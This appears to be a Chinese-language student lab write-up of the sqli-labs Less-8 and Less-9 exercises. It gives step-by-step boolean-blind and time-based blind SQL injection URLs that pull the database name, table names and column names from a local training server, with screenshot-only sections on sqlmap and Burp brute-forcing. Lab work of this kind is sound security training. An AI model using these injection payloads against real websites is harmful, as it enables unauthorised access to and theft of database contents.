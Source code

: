## 完成sqli中less 8布尔盲注实验，获取数据库字段内容；

### 获取数据库名称长度

```
http://192.168.123.62/sqli-labs/Less-8/?id=1' and length(database())=8%23
```

![image-20221021165347833](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221021165347833.png)

### 获取数据库名

```
http://192.168.123.62/sqli-labs/Less-8/?id=1' and ascii(substr(database(),1,1))=115%23
```

![image-20221021165638768](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221021165638768.png)

### 获取表的数量

```
http://192.168.123.62/sqli-labs/Less-8/?id=1' and (select count(table_name) from information_schema.tables where table_schema="security")=4%23
```

![image-20221021165827280](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221021165827280.png)

### 获取表名长度

```
http://192.168.123.62/sqli-labs/Less-8/?id=1' and length((select table_name from information_schema.tables where table_schema="security" limit 0,1))=6%23
```

![image-20221021170015254](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221021170015254.png)

### 获取表名

```
http://192.168.123.62/sqli-labs/Less-8/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema="security" limit 0,1),1,1))=101%23
```

![image-20221021170206721](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221021170206721.png)

### 获取字段数量

```
http://192.168.123.62/sqli-labs/Less-8/?id=1' and (select count(column_name) from information_schema.columns where table_name="emails" )=2%23
```

![image-20221021202909772](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221021202909772.png)

### 获取字段长度

```
http://192.168.123.62/sqli-labs/Less-8/?id=1' and length((select column_name from information_schema.columns where table_name="emails" limit 0,1))=2%23
```

![image-20221021203049385](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221021203049385.png)

### 获取字段名

```
http://192.168.123.62/sqli-labs/Less-8/?id=1' and ascii(substr((select column_name from information_schema.columns where table_name="emails" limit 0,1),1,1))=105%23
```

![image-20221021203218165](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221021203218165.png)

### 使用sqlmap

#### 数据库

![image-20221021204619548](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221021204619548.png)

#### 表

![image-20221021204628688](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221021204628688.png)

#### 字段

![image-20221021204730493](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221021204730493.png)



### burp爆破数据库名

#### 设计爆破模式和爆破目标

![image-20221021211020074](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221021211020074.png)

#### 添加爆破载荷

![image-20221021211227635](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221021211227635.png)

![image-20221021211235224](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221021211235224.png)

爆破成功

![image-20221021211340645](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221021211340645.png)

## 完成sqli中less 9时间盲注实验，获取数据库字段内容；

### 数据库名字长度

```
http://192.168.123.62/sqli-labs/Less-9/?id=1' and if(length(database())=8,sleep(5),1)%23
```

![image-20221021205208646](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221021205208646.png)

### 数据库名字

```
http://192.168.123.62/sqli-labs/Less-9/?id=1' and if(ascii(substr(database(),1,1))=115,sleep(5),1)%23
```

![image-20221021210811263](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221021210811263.png)

### 表数量

```
http://192.168.123.62/sqli-labs/Less-9/?id=1' and if((select count(table_name) from information_schema.tables where table_schema="security")=4,sleep(5),1)%23
```

![image-20221021205337721](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221021205337721.png)

### 表长度

```
http://192.168.123.62/sqli-labs/Less-9/?id=1' and if(length((select table_name from information_schema.tables where table_schema="security" limit 0,1))=6,sleep(5),1)%23
```

![image-20221021205448696](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221021205448696.png)

### 表名字

```
http://192.168.123.62/sqli-labs/Less-9/?id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema="security" limit 0,1),1,1))=101,sleep(5),1)%23
```

![image-20221021205540206](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221021205540206.png)

### sqlmap

![image-20221021205718898](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221021205718898.png)

### burp爆破数据库名

#### 选择爆破模式和爆破目标

![image-20221021211510464](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221021211510464.png)

#### 设置爆破载荷

![image-20221021211522569](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221021211526913.png)

![](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221021211526913.png)

#### 爆破成功

![image-20221021211725734](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221021211725734.png)